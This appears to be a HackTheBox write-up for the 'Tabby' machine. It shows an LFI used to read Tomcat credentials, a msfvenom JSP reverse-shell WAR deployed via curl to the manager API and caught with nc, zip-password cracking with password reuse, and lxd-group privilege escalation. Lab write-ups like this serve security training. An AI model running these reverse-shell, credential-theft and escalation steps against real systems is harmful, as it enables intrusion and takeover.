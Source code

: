 ```yaml
---
Category:
  - B2R
Difficulty: Easy
Platform: HackTheBox
Status: 3. Complete
tags:
  - LFI
  - WAR
  - cracking-zip-files
  - lxd-privesc
  - tomcat
  - Linux
---
```

### Improved skills

- LFI
- Tomcat WAR exploitation
- Cracking .zip files
- lxd Privilege Escalation

### Used tools

- nmap
- gobuster
- msfvenom
- LinEnum.sh
- fcrackzip

---

## Introduction & Foothold

>[!summary]
>**Tabby** is an *easy* HTB machine focused on the manually exploitation of a **Tomacat** server using a **.WAR** reverse shell and the exploitation of a misconfigured group permission which allow to escalate to root abusing **lxd** rights.

Let’s start as always with an **nmap** scan:

```bash
root@kali:~/HackTheBox# nmap -Pn -sCV -p22,80,8080 -oN nmap/Basic_10.10.10.194.nmap 10.10.10.194
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Mega Hosting
8080/tcp open  http    Apache Tomcat 9.0.31
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We find out that there are three services running on the box, **two of which** are **web servers** (an *Apache httpd 2.4.41* and an *Apache Tomcat 9.0.31*).

Visiting the first site we discover that the **host** of the box is ***megahosting.htb***. In order to properly enumerate the box we need to resolve it correctly

`cat "10.10.10.194    megahosting.it" >> /etc/hosts`

Now that we are effectively ready, let’s start enumerating every page of the first web server.

![2020-06-22-14-48-13.png](../../zzz_res/attachments/2020-06-22-14-48-13.png)

After few minutes I found the http://megahosting.htb/news.php?file=statement page, which results to be vulnerable to **Local File Inclusion** (LFI).

![2020-06-22-14-59-19.png](../../zzz_res/attachments/2020-06-22-14-59-19.png)

![2020-06-22-14-59-41.png](../../zzz_res/attachments/2020-06-22-14-59-41.png)

Because we got an LFI vulnerability, the logical next step was to try to exploit it in order to get a Remote Code Execution, but unfortunately none of the existing methods worked… so I decided to start to enumerate the second web server (**tomcat**), looking for another entry point.

```bash
root@kali:~/HackTheBox# gobuster dir -u http://10.10.10.194:8080/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x .php,.html,.txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.194:8080/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,html,txt
[+] Timeout:        10s
===============================================================
2020/06/22 16:05:04 Starting gobuster
===============================================================
/index.html (Status: 200)
/docs (Status: 302)
/examples (Status: 302)
/manager (Status: 302)
```

Among all the various directories, ***/manager*** immediately caught my attention: trying to logging in, the server reveals which file contains the credentials, allowing us to use the **LFI** to get them.

![2020-06-22-16-11-37.png](../../zzz_res/attachments/2020-06-22-16-11-37.png)

Finding ***tomcat-users.xml*** was a pain as the installation of the web server was done *without following standards paths and rules*, however, after a couple of hours I was able to read the file, located in ***/usr/share/tomcat9/etc/tomcat-users.xml***

![2020-06-22-16-45-05.png](../../zzz_res/attachments/2020-06-22-16-45-05.png)

![2020-06-22-16-45-57.png](../../zzz_res/attachments/2020-06-22-16-45-57.png)

Good! Now we are able to login into the ***/manager*** directory and proceeds.

Since the tomcat user are assigned the roles of **admin-gui** and **manager-script**, he has the permission to access the *host-manager webapp via web gui* (from which nothing can be done) but also to interact ***via cli with the manager webapp***, which allows us to upload **.war files** to the server (see the [official documentation](https://tomcat.apache.org/tomcat-7.0-doc/manager-howto.html)).

Once we find the way, let’s **create our reverse shell** through **msfconsole**

```bash
root@kali:/var/www/html#  msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.18 LPORT=9876 -f war > maoutis.war
Payload size: 1095 bytes
Final size of war file: 1095 bytes

root@kali:/var/www/html# ls -al maoutis.war 
-rw-r--r-- 1 root root 1095 Jun 29 19:08 maoutis.war
```

load it on the server

```bash
root@kali:~/HackTheBox/Machine/Tabby/files# curl -u 'tomcat':'$3cureP4s5w0rd123!' -T maoutis.war 'http://10.10.10.194:8080/manager/text/deploy?path=/maoutis'
OK - Deployed application at context path [/maoutis]
root@kali:~/HackTheBox/Machine/Tabby/files# curl -u 'tomcat':'$3cureP4s5w0rd123!' http://10.10.10.194:8080/manager/text/list
OK - Listed applications for virtual host [localhost]
/:running:0:ROOT
/maoutis:running:0:maoutis
/examples:running:0:/usr/share/tomcat9-examples/examples
/host-manager:running:1:/usr/share/tomcat9-admin/host-manager
/manager:running:0:/usr/share/tomcat9-admin/manager
/docs:running:0:/usr/share/tomcat9-docs/docs
and run it to get access as *tomcat* user.
```

```bash
root@kali:~/HackTheBox/Machine/Tabby/files# curl -u 'tomcat':'$3cureP4s5w0rd123!' http://10.10.10.194:8080/maoutis/
```

```bash
root@kali:~# nc -lvp 9876
python3 -c 'import pty; pty.spawn("/bin/bash")'
tomcat@tabby:/var/lib/tomcat9$ export TERM=screen
CTRL+Z
root@kali:~/HackTheBox# stty raw -echo
root@kali:~/HackTheBox# fg

tomcat@tabby:/var/lib/tomcat9$
```

## Lateral Movement to ash

Once gained the shell, further enumeration reveals that the user of the box is **ash**.

Running **LinEnum.sh** we discovered a **.zip backup file** inside ***/var/www/html/files/*** which require to be cracked in order to be unzipped. Let’s use **fcrackzip** in order to crack the archive.

```bash
root@kali:~/HackTheBox/Machine/Tabby/files# fcrackzip -u -D -p '/usr/share/wordlists/rockyou.txt' 16162020_backup.zip 

PASSWORD FOUND!!!!: pw == admin@it
```

Password found! While inside the archive we didn’t find anything useful, trying to use the password to switch to **ash** reveals that the same *password has been reused*.

```bash
tomcat@tabby:/var/www/html/files$ su ash                                                                             
Password: admin@it                                                                                                           
ash@tabby:/var/www/html/files$ 
uid=1000(ash) gid=1000(ash) groups=1000(ash),4(adm),24(cdrom),30(dip),46(plugdev),116(lxd)
```

Well done! We are ash!

## Privilege Escalation

Running again **LinEnum.sh** it reveals that we are members of the **lxd group** and that exists a way to ***abuse this permission*** in order *to became root*. Searching on Google I found [this](https://www.hackingarticles.in/lxd-privilege-escalation/) article, which describes how an account on the system that is a member of the lxd group is able to escalate the root privilege by exploiting the features of LXD.

1. **Download** the **lxd-alpine-builder** locally on the kali machine and built it as root
    
    ```bash
    $git clone https://github.com/saghul/lxd-alpine-builder.git
    $cd lxd-alpine-builder
    $sudo bash build-alpine
    ```
    
    Probably will appear errors like *“tar: Ignoring unknow …”*. Don’t worry and continue     with the privilege escalation process.
    
2. **Upload** the **.tar** file on the **ash home** directory and **import** it **inside lxc**
    
    ![2020-06-29-23-27-45.png](../../zzz_res/attachments/2020-06-29-23-27-45.png)
    

Once finished, we will be root!

# Trophy

>[!quote]
>If you can't give me poetry, can't you give me poetical science?
>
>\- Ada Lovelace

